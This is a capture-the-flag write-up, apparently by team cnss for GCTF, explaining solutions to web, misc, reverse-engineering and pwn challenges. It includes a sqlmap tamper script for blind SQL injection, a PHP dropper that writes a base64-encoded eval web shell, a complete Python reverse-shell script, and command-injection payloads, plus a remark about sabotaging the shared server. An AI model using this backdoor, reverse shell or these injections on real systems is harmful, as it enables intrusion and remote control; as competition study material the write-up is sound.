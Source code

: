##gctf writeup, by cnss
###WEB200
	先吐槽，第一天做的时候web100表里面居然flag字段为空，就以为是个坑，到处翻表，结果是被人搅了而已，那么卡的服务器居然出的是时间盲注真是醉了。
	当url中出现大写的PG_SLEEP的时候就会返回can’t use sleep，测试小写的时候发现可以成功sleep并不拦截。因此写个tamper用sqlmap跑，tamper代码如下：
```python
def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload.replace("PG_SLEEP","pg_sleep");

return retVal
```
	sqlmap的关键参数是 --tamper xxx.py --technique T --dbms postgresql –D public –T web100 --dump  在flag字段注入出flag。

###WEB300
	Hint说会被立刻删除，因此写个php写上上级目录，放进zip中，用burp一直跑对应用户名的上传目录即可。php代码如下：
```php
<?php
$dir = dirname(__FILE__);
$basedir = $dir."/../../";
system("chmod -Rf 777 ".$basedir); //由于目录权限被搅，还要把权限设置回来
echo $basedir;
echo file_put_contents("../../luoisyourfather.php",base64_decode("DQo8P3BocCANCmlmKG1kNSgkX0dFVFsneCddKSA9PSAiZTNiN2QzZjgyM2VhODJkMmY2M2FkM2JiZmQwN2I0ZmMiKXsNCiAgICBldmFsKCRfUE9TVFsnbHVvJ10pOyANCn0NCj8+"));
?>
```
	本人上传的用户名为testluo，文件名为3.php因此burp一直get /uploads/testluo/3.php，出现200状态码即可
	成功拿到shell后在网站根目录的fl4g文件夹下发现flag。(然后就可以写脚本搅屎了)

###WEB500
	两种办法，可以用portmap把22转发出来用ssh，另一个用python写一个tty的shell反弹出来。我选择python的ttyshell，因为ssh猜密码很麻烦。Python代码如下：
```python
#!/usr/bin/python
import sys
import os
import socket
import pty

shell = "/bin/sh"

def usage(programname):
print "python connect-back door"
print "Usage: %s <conn_back_ip> <port>" % programname

def main():
if len(sys.argv) !=3:
usage(sys.argv[0])
sys.exit(1)

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

try:
s.connect((socket.gethostbyname(sys.argv[1]),int(sys.argv[2])))
print "[+]Connect OK."
except:
print "[-]Cant connect"
sys.exit(2)

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
global shell
os.unsetenv("HISTFILE")
os.unsetenv("HISTFILESIZE")
pty.spawn(shell)
s.close()

if __name__ == "__main__":
main()
```
	弹出来shell后直接su redrain，密码为弱口令asd123!@#，在/home/redrain下发现flag


###Misc 50

	网页源码里 aaencode的代码,运行,出来一个gctf{}，以为少了东西,找了半天提交了一下居然对了..

###Misc100
	递归查{} 注意从源码复制和嵌套,爆破也可以，脚本跑出来一直是267，不对( ⊙ o ⊙ )啊！
	默默+1 -1 发现266对了
```python
#-*-coding:utf-8-*-
def Count():
    s = '''the string without \\'''
    cnt = 0
    left = 0
    for i in s:
        if i == '{':
            left += 1
        if i == '}':
            if (left > 0):
                left -= 1
                cnt += 1
    print cnt

Count()
```

###Misc200/600
	http://insight-labs.org/?p=371 分离出来狗
	LSB在CSDN上有个工具,人家毕业设计 直接跑一下OK出来flag
	


###Re 1:
	simply Reverse.	
	1.py:
```python
str1 = '62C5J110119120L'
	str2 = ''
	for i in range(len(str1)):
		str2 += chr(ord(str1[i]) + 49 )

	print str2
```

###Re2:

	a interesting Reverse, use SEH to control execute process.
	breakpoint in SEH process function(0x401000) and then trigger off a exception.

	there is a simply labyrinth.

```bash
00409036  2A 2A 2A 20 20 2A 2A 20 20 2A 2A 20 2A 2A 2A 2A  ***  **  ** ****
00409046  20 2A 2A 20 2A 2A 2A 2A 2A 2A 2A 20 2A 23 20 20   ** ******* *#
00409056  20 2A 2A 20 2A 2A 2A 2A 20 2A 2A 20 20 2A 2A 20   ** **** **  **
00409066  20 2A 2A 2A 20 20 20 20 2A 2A                     ***    **
```
	everytime I can +8,-8,+1,-1
	from 0x00409046 to 0x00409053
	cannot on 0x2A,length 25.

###Re3:
	use a table to control execution.
	breakpoint on every case to switch.
	look at the parameter of every crucial function(strcmp, strlen and so on)
	input len : 13, every -0x80, compare with a string.

###Pwn1:
	no NX, a global buffer we can enter into.
	a stack overflow, no cookie.

	arrange shellcode in global buffer, use stack overflow to return to buffer,getshell.

###Pwn2:
	no NX, a global buffer we can enter into.
	a fsb, we can leak address.
	a uaf, we can jmp to anywhere.
	but we cannot write shellcode in global buffer,beacuse we use uaf, the buffer will be corrupted.

	so, leak stack address, and then use uaf return to stack buffer.

###Pwn3:
	NX, cannot execute shellcode in stack and heap.
	safe stack, cannot overflow the stack
	but,there is a fsb and a command injection.

	bypass '>', ';', '<'
	use pipe.
	but cannot getshell.
	payload "ping *|ls"
	look at the file of flag's name,flag.txt
	use payload again "ping *|cat flag.txt"
